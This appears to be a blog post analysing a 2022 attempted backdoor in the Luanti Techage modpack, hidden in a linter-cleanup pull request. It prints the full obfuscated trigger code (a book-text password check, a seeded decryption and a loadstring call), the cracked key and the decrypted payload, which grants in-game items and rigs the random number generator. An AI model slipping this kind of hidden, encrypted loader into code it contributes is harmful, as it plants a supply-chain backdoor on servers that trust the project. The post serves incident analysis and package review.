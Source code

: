```yaml
---
title: The Luanti Techage Backdoor
tags: Anecdotes Informational Luanti
cover_alt: The main screenshot of the Techage package showing the machines and such that are provided by the modpack. The code for the backdoor is semi-transparently overlaid to the right of the image.
---
```


In early January of 2022, a modpack for Luanti (named Minetest at the time) called [Techage](https://content.luanti.org/packages/joe7575/techage_modpack/) received a pull request from a well known community member by the name of HybridDog. The pull request was about adding a config file for the Lua static analyser Luacheck, and then going through the mod's codebase to fix any warnings that it found.

At a first glance, it looks like a pretty typical maintenance and code quality PR. But within this noise of line changes to fix linter warnings, there was an odd and ominous piece of code that was added, heavily obfuscated with an encrypted payload and hidden in plain sight. A backdoor.

<!--more-->

## The pull request
The pull request can be found as [#71](https://github.com/joe7575/techage/pull/71) in the Techage repository, and looks innocious at a first glance. A maintenance PR from a known community member just trying to improve the quality of the mod ecosystem.

But after reviewing the changes in the PR, joe7575 (the Techage maintainer) noticed an odd piece of code that was added to the inventory code for the Drillbox node. A heavily obfuscated piece of code that gets triggered by placing a book item into the inventory of a Drillbox.

A review comment was made pointing at the code, and HybridDog responded:

> It's a secret easter egg.

Shortly after, news about this spread to the rest of the Luanti community, and the code began to be scrutinised by more people. As the resulting code that it would execute when given the correct command was encrypted, it could have been anything to make someone gain an advantage or take control of a server, and it was assumed to be something malicious in nature. Malware, a supply chain attack, a backdoor, whatever you may want to call it.

## The backdoor
The backdoor code was put in `oil/drillbox.lua`, in the `allow_metadata_inventory_put` callback function which is ran every time an item is placed into the inventory of the Drillbox.

Normally it intends to check if the items you place in there actually belong there, but it also serves as a pretty good place to hide a backdoor that can be discreetly triggered simply by putting an item into the inventory, using written books to send arbitrary data. In this case the content of the book works as a password to execute a payload embedded and encrypted in the backdoor code.

Below is the full code for the backdoor:

```lua
if stack:get_name() == "default:book_written" then
	local key = stack:get_meta():get_string("text")
	local hash = minetest.get_password_hash("key", key)
	if hash == "ERV14RNotIbIPklZ5f2gQtAKDNc" then
		local code = minetest.decode_base64("hWRHSF8RDYiS7Ag6gicCA0iTYc3" ..
			"fUV3sQZB2VZ4FLXefGb0uunYrbuTScPazwl/SDNwaj1a0MrFhlNywzkwviv" ..
			"mrbM3jc1aU3ENI9NOTC4zQQBBjb8VKaE0sKfZ555rG1fceGwvOGicisERE2" ..
			"ByiMo64edZSMEzoicd2/mTHb+/kfM9RNza88IVwxsiMjQValdrnkesxlbea" ..
			"AW3EznWX9Y9ESDNKDUQlcg")
		code = {code:byte(1, #code)}
		local pr = PcgRandom(tonumber(key))
		for i = 1, #code do
			code[i] = (code[i] + pr:next(0, 255)) % 256
		end
		code = minetest.decompress(string.char(unpack(code)), "deflate")
		loadstring(code)()(player)
	end
end
```

The `minetest.get_password_hash` function is a part of the Luanti API that allows you to hash a username and password using Luanti's legacy password format (username + password hashed with SHA-1, then the binary representation of the hash is Base64 encoded), that was used before SRP was introduced for authentication.

Essentially it means the text in the book will be hashed with "key" prepended as a salt, and compared against the hash `111575e11368b486c83e4959e5fda042d00a0cd7` (Base64 encoded in the code). If the password in the book is correct, the remaining code will be executed, which uses the password as a key for an encryption scheme by using the key as a seed for the deterministic `PcgRandom` random number generator. With the right key then the seed will end up decrypting the payload, which is then decompressed and executed using `loadstring`.

It probably goes without saying that this kind of obfuscation of code is a serious red flag in any non-esoteric open source project. But HybridDog claimed it was simply an easter egg. As such, people swiftly began trying to crack the easter egg with a sledgehammer, by brute forcing the password that is needed to decrypt the payload.

## The payload
Due to the intended password most likely being numeric as the key is converted through `tonumber` before being passed as a seed, the potential searching range for brute forcing it was greatly reduced. Not that SHA-1 is a particularly secure hashing algorithm nowadays either.

After some time of people trying to brute force ranges of potential numbers, a match was found and the discovered key was **7598122128**. Just to check, trying to SHA-1 hash this along with the salt used gives us the exact same hash that was included in the code:

```bash
$ echo -n "key7598122128" | sha1sum -
111575e11368b486c83e4959e5fda042d00a0cd7  -
```

The number does not seem to have any significance, and was likely just chosen as a large random number or a numpad key mash.

But once the key was discovered, the encrypted Base64 encoded blob could then be decrypted by running the decryption code and dumping the result. This is what would have been executed by someone placing a book with the password inside (reformatted for readability):

```lua
return function(p)
	p:get_inventory():add_item("main", "default:mese 99")

	local x = 0
	function math.random(a, b)
		x = (x + 0.61803398874989) % 1.0
		return b and math.floor(a + (b - a)*x + 0.5)
		or a and math.floor(1 + (a - 1)*x + 0.5)
		or x
	end
end
```

It gives the player 99 Mese blocks, which is a very valuable material in Minetest Game. Since you could repeat this multiple times to run the function over and over again, you could generate enormous amounts of Mese by repeatedly taking out and putting the book back into the inventory.

It also overrides Lua's default random number generator function `math.random` and replaces it with a custom RNG that makes use of the golden ratio to generate pseudorandom numbers. The implementation itself isn't much to talk about, but its presence means that after the point that the payload is executed, the series of random numbers that are generated will be known.

Theoretically it would mean you can calculate and predict any kind of chance-based logic that uses `math.random` after this point, and as all server mods run in the same environment this would apply to any mod running in the game that makes use of `math.random` which would now use the custom implementation.

## The (alleged) plan
This is where some mad speculation comes in. Why did this happen, and what was the purpose of it?

The nature of the payload code makes it not very useful in singleplayer. It does not exfiltrate any data or do anything outside of the game environment, but manipulates in-game mechanics that you could just as well do yourself using `/giveme` commands. This code was very likely intended to end up on a multiplayer server that runs Techage, giving anyone who knows the key the ability to spawn endless amounts of Mese and predict RNG in their favour.

So the plan was likely to hide it within a sea of random line changes caused by fixing Luacheck warnings, get it merged, and then wait until the new changes populate into the modsets of multiplayer servers. Some servers might pull directly from master, or occasionally update their mods every now and then when new changes happen in upstream. Nobody would have been the wiser, and a classic open source supply chain attack scenario would have played out.

But the plan was cut short, and the pull request was rejected without merging it. And HybridDog never got their Mese.

Or that's what you might try to spin it as, to get a good story out of it.

## Closing thoughts
In some ways the payload could have been much worse, for example if rather than having a fixed payload it could have simply loaded and executed arbitrary code from the written book. Even though Luanti has a mod sandbox that would (hopefully) prevent anything that could compromise the entire server machine, mods still have a lot of power and can mess with world data, leak sensitive data related to the server world, or similar. You could cause a lot of havoc.

In the end, the intention might not even have been very malicious to begin with. However the uncertainty of an encrypted payload meant that absolutely anything could have been hidden in it, had it been merged and not discovered and cracked until after it had propagated to servers. And I would still *never* want to have this kind of code running on a multiplayer survival server I'd run, giving someone with access to the key such an unfair advantage over other players. But calling it an easter egg is not completely ridiculous for a certain cryptography nerd.

HybridDog has since then claimed to have never hidden encrypted code in any mods except for this one time with Techage. And I probably believe them, because all other contributions to Luanti and mods after that have been fully benign. And analysing the code they had come up to hide the payload is nonetheless rather interesting, three years after the fact.

In summer of 2022, I joined the ContentDB staff team as an editor, meaning I would help out with checking packages that are uploaded to ContentDB before they are approved. While most of that work is related to licensing, we also undoubtedly serve a role ensuring the safety of users when installing content for Luanti.

While I have seen benign minified Lua code without provided source (which we treat the same as obfuscation and [is forbidden per our package policies](https://content.luanti.org/policy_and_guidance/#8-security)), I have never seen any intentionally malicious code embedded in a game or mod with explicit ill intent and have never heard about anything hidden in Luanti mod code that has been on the same level as the Techage backdoor.

At least, nothing that we know about.
